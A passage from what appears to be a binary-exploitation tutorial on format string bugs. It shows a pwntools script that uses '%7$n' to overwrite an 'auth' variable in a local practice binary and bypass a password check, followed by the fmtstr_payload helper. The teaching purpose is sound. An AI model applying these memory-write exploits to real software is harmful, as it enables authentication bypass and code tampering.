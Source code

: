 Buffer is the 7th `%p`.

```python
from pwn import *

AUTH = 0x804c028

p = process('./auth')

payload = p32(AUTH)
payload += b'|' * 6         # We need to write the value 10, AUTH is 4 bytes, so we need 6 more for %n
payload += b'%7$n'


print(p.clean().decode('latin-1'))
p.sendline(payload)
print(p.clean().decode('latin-1'))
```

And easy peasy:

```text
[+] Starting local process './auth': pid 4045
Password: 

[*] Process './auth' stopped with exit code 0 (pid 4045)
(À\x04||||||
Auth is 10
Authenticated!
```

### Pwntools

As you can expect, pwntools has a handy feature for automating `%n` format string exploits:

```python
payload = fmtstr_payload(offset, {location : value})
```

The `offset` in this case is `7` because the 7th `%p` read the buffer; the location is **where** you want to write it and the value is **what**. Note that you can add as many location-value pairs into the dictionary as you want.

```python
payload = fmtstr_payload(7, {AUTH : 10})
```

You can also grab the location of the `auth` symbol with pwntools:

```python
elf = ELF('./auth')
AUTH = elf.sym['auth']
```

> Check out the pwntools tutorials for more cool features

